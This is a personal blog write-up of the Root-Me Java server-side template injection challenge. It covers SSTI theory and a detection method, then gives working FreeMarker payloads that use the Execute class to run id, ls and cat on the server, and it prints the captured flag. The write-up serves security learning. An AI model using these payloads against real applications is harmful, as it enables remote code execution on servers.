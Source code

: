 +++
title = "Deepening My SSTI Knowledge: Java SSTI on Root-Me"
description = "A journey from studying the theory of Server-Side Template Injection (SSTI) to applying it to solve a Java/FreeMarker challenge on Root-Me."
date = "2025-09-09"
draft = false
tags = ["SSTI", "RootMe", "Cybersecurity", "Java", "FreeMarker", "RCE"]
+++

After my first taste of Server-Side Template Injection (SSTI) with the PicoCTF challenge, I was hooked. It was a relatively straightforward introduction, and it left me wanting to learn more. This post documents my journey of diving deeper into SSTI, from studying the theory to solving a more complex challenge on Root-Me.

---

## Broadening My SSTI Understanding

I started by consuming as much information as I could find on SSTI. Here are some of the resources I found most helpful:

*   [https://www.youtube.com/watch?v=x_1A9rCxREs](https://www.youtube.com/watch?v=x_1A9rCxREs)
*   [https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/](https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/)
*   [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980)
*   [https://github.com/DiogoMRSilva/websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI) (last update is older than 3 years)
*   [https://www.pmnh.site/post/writeup_spring_el_waf_bypass/](https://www.pmnh.site/post/writeup_spring_el_waf_bypass/)
*   [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)
*   [https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf)
*   [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

### Key Takeaways

*   **SSTI vs. XSS:** While they might seem similar, SSTI is far more dangerous. It attacks the server's internals directly, often leading to Remote Code Execution (RCE), whereas Cross-Site Scripting (XSS) is a client-side vulnerability.
*   **Template Engines as a Feature:** Many applications, like wikis, blogs, and content management systems, intentionally expose template engines to users for rich functionality. The key is whether these engines are properly sandboxed.

### A Methodology for SSTI

I formulated a simple methodology for tackling potential SSTI vulnerabilities:

1.  **Detect:** Look for plaintext input that gets rendered with some processing. This is a prime candidate for SSTI.
2.  **Identify:**
    *   Probe with invalid syntax to trigger errors that might reveal the template engine.
    *   Use a decision tree of payloads to identify the engine.
    *   Use tools like Wappalyzer to identify the server's language and framework, which helps narrow down the possibilities.
3.  **Exploit:**
    *   **Read the Docs:** Once the engine is identified, read its documentation, paying close attention to security sections and built-in methods.
    *   **Explore:** Understand the environment and look for gadgets that can be abused.
    *   **Attack:** Build an attack vector and iterate until you find something that works. Escalate the attack to achieve a higher impact, like RCE.

---

## The Root-Me Challenge: Java SSTI

With a solid theoretical foundation, I was ready for a new challenge: [Java - Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection).

### Detection and Identification

The challenge presented a simple form that took a `nickname` as input. I used Caido to replay the request and automate the testing of a list of common SSTI payloads from the [PayloadBox repo](https://github.com/payloadbox/ssti-payloads).

Here is the `curl` command for the request:
```bash
curl 'http://challenge01.root-me.org/web-serveur/ch41/check' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0' \
  -H 'Accept: text/plain, */*; q=0.01' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: http://challenge01.root-me.org' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://challenge01.root-me.org/web-serveur/ch41/' \
  -H 'Cookie: _ga_SRYSKX09J7=GS2.1.s1757387996$o1$g1$t1757388045$j11$l0$h0; _ga=GA1.1.1521611932.1757387996' \
  -H 'Priority: u=0' \
  --data-raw 'nickname=hi'
```

Two payloads worked:

*   `%24%7B6*6%7D` (URL-decoded: `${6*6}`) resulted in `36`
*   `%23%7B3*3%7D` (URL-decoded: `#{3*3}`) resulted in `9`

This suggested a Java-based template engine. To confirm, I sent a payload with invalid syntax: `%24%7B%7B3*3%7D%7D`. The server responded with a detailed error message:

```json
{
    "timestamp": 1757388561239,
    "status": 500,
    "error": "Internal Server Error",
    "exception": "freemarker.core.ParseException",
    "message": "..."
}
```

The exception clearly identified the template engine as **FreeMarker**.

### Exploration and Exploitation

Now that I knew I was dealing with FreeMarker, I started researching ways to achieve RCE. I found that the `freemarker.template.utility.Execute` class could be used to run shell commands.

My first attempt to use it failed, likely due to a syntax error or issues with URL encoding:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

I took a step back and started with a simpler payload to confirm I could assign variables:

```freemarker
<#assign myVar = "Hello World"> ${myVar}
```

This worked! It returned `Hello World`. Now, I tried to instantiate the `Execute` class again:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex}
```

This returned a 200 OK response, but no output. This was a good sign. It meant the object was likely created successfully. I was expecting an object hash, but the empty response was still promising.

I then revisited my RCE payload, making sure the syntax was correct. I realized I had made a silly mistake in my first attempt: I had forgotten the closing curly brace `}`. With the corrected payload, I was able to execute the `id` command:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

The server responded with:

```
uid=1109(web-serveur-ch41) gid=1109(web-serveur-ch41) groupes=1109(web-serveur-ch41),100(users)
```

I had RCE!

### Getting the Flag

Now for the final steps:

1.  **List the files:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ls -la") }
    ```

    This revealed a file named `SECRET_FLAG.txt`.

2.  **Read the flag:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
    ```

And there it was: **`B3wareOfT3mplat3Inj3ction`**

---

This challenge was a fantastic way to solidify my understanding of SSTI. It required a more methodical approach than the PicoCTF challenge and highlighted the importance of careful payload construction and error analysis.

---

## Related Posts

*   [My First SSTI Adventure: A PicoCTF Walkthrough](/post/picoctf-ssti-journey/)